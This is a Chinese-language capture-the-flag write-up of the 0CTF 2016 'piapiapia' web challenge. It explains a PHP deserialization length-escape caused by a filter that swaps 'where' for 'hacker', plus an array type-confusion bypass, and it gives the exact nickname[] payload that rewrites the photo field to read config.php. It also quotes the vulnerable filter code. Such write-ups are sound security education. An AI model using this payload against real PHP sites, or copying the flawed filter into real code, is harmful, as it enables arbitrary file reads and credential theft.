







# [0CTF 2016] piapiapia — 序列化长度逃逸（`where` → `hacker`）

> **题目类型**：Web — 源码泄露 + PHP 反序列化长度逃逸
>
> **题目地址**：0CTF 2016 piapiapia（原题环境已关闭）
>
> **Flag**：`CTF2{53ec6fc8-d499-4f76-bed2-6c4c2a076b43}`

---

## 题目概述

进入靶场是一个登录页面，没什么有用信息，也没找到注册页面。

**但这题的入口不是页面，是**源码**。**

---

## 解题过程

### Step 1：dirsearch 扫出 www.zip

**先试着用 dirsearch 扫一下，结果发现了 `www.zip` —— 里面放着各个界面的源码。**

**把这几个文件读一遍：`config.php`、`profile.php`、`update.php`、`class.php`、`register.php`。**

### Step 2：`config.php` 里有 flag

**所以问题变成：从哪里能读到 `config.php`。**

### Step 3：`profile.php` 里有个任意文件读取



```php
$profile = unserialize($profile);
$phone   = $profile['phone'];
$email   = $profile['email'];
$nickname = $profile['nickname'];
$photo   = base64_encode(file_get_contents($profile['photo']));
```

**看到 `file_get_contents($profile['photo'])` 这一串，就想到：把 `photo` 换成 `config.php`，flag 不就出来了吗？**

**但 `$profile` 是 `unserialize()` 出来的 —— 也就是说，`photo` 的值来自**我们存在数据库里的那个序列化串**，不是我们能直接改的。所以问题变成：怎么让数据库里那个串里的 `photo` 变成 `config.php`。**

### Step 4：`update.php` 的三道校验



```php
if(!preg_match('/^\d{11}$/', $_POST['phone']))
    die('Invalid phone');

if(!preg_match('/^[a-zA-Z0-9]{1,10}@[a-zA-Z0-9]{1,10}\.[a-zA-Z0-9]{1,10}$/', $_POST['email']))
    die('Invalid email');

if(preg_match('/^[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
    die('Invalid nickname');

$file = $_FILES['photo'];
if($file['size'] < 5 or $file['size'] > 1000000)
    die('Photo size error');
```

**三个字段各有各的规矩：**

| 字段 | 限制 |
|---|---|
| phone | 11 位纯数字 |
| email | `xxx@xxx.xxx`，每段 ≤10 的字母数字 |
| nickname | 首字符必须是字母数字下划线，**且长度 ≤10** |
| photo | 文件大小 5 ~ 1000000 字节 |

**这里还没想到哪里能字符逃逸**，先往下看它怎么存。

### Step 5：存的时候做了序列化，而且会过滤



```php
$user->update_profile($username, serialize($profile));
```

**接着去看 `class.php` 里的 `update_profile`：**



```php
public function update_profile($username, $new_profile) {
    $username = parent::filter($username);
    $new_profile = parent::filter($new_profile);
    ...
}
```

**注意：**过滤发生在序列化之后** —— 它拿到的是**序列化后的字符串**。**

### Step 6：`filter()` 里的长度差



```php
public function filter($string) {
    $escape = array('\'', '\\\\');
    $escape = '/' . implode('|', $escape) . '/';
    $string = preg_replace($escape, '_', $string);

    $safe = array('select', 'insert', 'update', 'delete', 'where');
    $safe = '/' . implode('|', $safe) . '/i';
    return preg_replace($safe, 'hacker', $string);
}
```

**关键在最后一行：**

```text
select → hacker   6 → 6   不变
insert → hacker   6 → 6   不变
update → hacker   6 → 6   不变
delete → hacker   6 → 6   不变
where  → hacker   5 → 6   多出 1 个字节   ⭐
```

**`where` 只有 5 个字符，却被换成了 6 个字符的 `hacker` —— **每出现一次，字符串就长 1 个字节，而前面 `s:N:` 里的 N 不变。**

**这就是字符逃逸：**声明长度不变，实际内容变长**。**

### Step 7：`nickname[]` 同时绕过两个检查

**nickname 有两条限制：字符集和长度。**

**发 `nickname[]=xxx` 时，`$_POST['nickname']` 是一个**数组**：**

```
strlen(array)      →  NULL（PHP 7 报 warning，返回 null）
                      NULL > 10 为 false → 长度检查放过

preg_match(..., array) →  false（PHP 7 报 warning）
                      false || false = false → 不 die
```

**所以两条检查**都**被跳过了 —— 这意味着元素内容里可以出现 `"`、`;`、`{`、`}` 这些字符，这是后面构造注入串的前提。**

**⚠️ 这是 PHP 7 的行为。PHP 8 里 `strlen(array)` 会抛 `TypeError`（致命错误），这条路直接 500。**

### Step 8：构造 payload

**目标是让反序列化后的 `photo` 变成 `config.php`。**

**先说对齐的规则：**

```text
设：片段长度 F，where 的个数 k

nickname 元素的声明长度 = 5k + F      （过滤前算的）
过滤后的实际字节       = 6k + F

要让解析器读完声明长度后，正好停在片段开头的引号上：

        6k = 5k + F   →   k = F
```

**我们的片段：**

```text
";}s:5:"photo";s:10:"config.php";}
```

**长度用 `strlen` 数是 **34**（别手数）→ 所以要 **34 个 `where`**。**

**然后看这个片段在干什么：**

```text
s:204:"hacker×34         ← 声明 204，实际 238；解析器只读 204
       ";                ← 读完 204 正好停在这里 → 字符串正常结束
         }               ← 关闭内层数组 a:1:{i:0;...}
          s:5:"photo";s:10:"config.php";}   ← 注入 photo，并关闭外层数组
```

**外层数组一关，后面原来那句 `s:5:"photo";s:5:"x.jpg";}` 就被 `unserialize` 忽略了 —— **所以 nickname 必须排在 photo 前面**，否则注入的结构关不掉外层，解析照样失败。**

**用 PHP 7.4 模拟验证（`k=34` 且 nickname 在第三位）：**

```text
nickname 第三  k=34  N=204  过滤后=238  photo=config.php  ✅
nickname 最后  k=34                       失败
k=33 / k=35                               失败
```

### Step 9：发包、解码、拿 flag



**注册登录 → 进 update 页面 → 文件随便传一个 5~1000000 字节的 → 抓包，把 `nickname` 改成：**

```text
name="nickname[]"

wherewhere……（34 个）……";}s:5:"photo";s:10:"config.php";}
```

**发包后访问 `profile.php`：**



**`photo` 已经被读成 `config.php`，内容是 base64 的图片 `data:image/gif;base64,...`，解码 ——**

```text
CTF2{53ec6fc8-d499-4f76-bed2-6c4c2a076b43}
```

---

## 解题思路总结

```text
页面没线索 → dirsearch 扫出 www.zip
  → 源码里：config.php 有 flag，profile.php 有 file_get_contents($profile['photo'])
    → photo 来自 unserialize → 需要一个「photo=config.php」的序列化串
      → update.php 存的时候是 serialize() 之后再 filter()
        → filter 里 where(5) → hacker(6)，每处多 1 字节
          → 长度逃逸：N 不变、内容变长 → 多出来的字节被当成结构
            → nickname[] 绕过字符集和长度检查（PHP 7 的 strlen/preg_match 行为）
              → 34 个 where + 34 字节片段 → photo 被改写成 config.php
                → profile.php 读出来 → base64 解码 → flag
```

### 漏洞原理

**① 过滤发生在序列化之后**

**序列化时把每个值的长度写死在 `s:N:` 里；过滤时又把内容改长了。**写死的长度和实际内容对不上，解析器就会按旧的偏移去读 —— 多出来的那部分被当成新的结构。**

**② 长度差的方向决定利用方式**

```text
变长（where→hacker，+1）：声明短于实际 → 读完 N 字节后，多出的部分被重新解析
变短（若存在）：          声明长于实际 → 值会吞掉后面的结构
```

**这题是前者。**

**③ 类型混淆绕过检查**

**校验函数假设 `$_POST['nickname']` 是字符串，但传数组进去：`strlen()` 返回 null、`preg_match()` 返回 false —— 两个检查都不成立。**

**这类"**检查的是 A 类型，用的是 B 类型**"的洞，在 PHP 里很常见（`str_replace` 收数组、`in_array` 弱比较都是同一类）。**

### 关键知识点

| 知识点 | 说明 |
|---|---|
| `s:N:"..."` | 序列化时写死的长度；改动内容而不改 N 就会错位 |
| 长度逃逸 | 过滤前后长度差，被用来"挤出"结构 |
| `where` → `hacker` | 唯一"变长"的替换：5 → 6，每处 +1 字节 |
| 对齐条件 | `k = 片段长度`（因为 6k = 5k + F） |
| 片段的 `}` | 前一个 `}` 关内层数组，后一个 `}` 关外层数组，让后面的原始内容被忽略 |
| 字段顺序 | 注入的结构必须落在目标字段之前 |
| `nickname[]` | 数组绕过：`strlen(array)=NULL`、`preg_match(array)=false`（PHP 7） |
| PHP 8 差异 | 同样两行在 PHP 8 会抛 `TypeError`，数组绕过失效 |
| `www.zip` | CTF 里最常见的源码泄露入口之一 |

---

??? note "class.php 的 filter() 与相关方法（按截图整理）"

    ```php
    public function filter($string) {
        $escape = array('\'', '\\\\');
        $escape = '/' . implode('|', $escape) . '/';
        $string = preg_replace($escape, '_', $string);

        $safe = array('select', 'insert', 'update', 'delete', 'where');
        $safe = '/' . implode('|', $safe) . '/i';
        return preg_replace($safe, 'hacker', $string);
    }

    public function show_profile($username) {
        $username = parent::filter($username);
        $where = "username = '$username'";
        $object = parent::select($this->table, $where);
        return $object->profile;
    }

    public function update_profile($username, $new_profile) {
        $username = parent::filter($username);
        $new_profile = parent::filter($new_profile);
        ...
    }
    ```
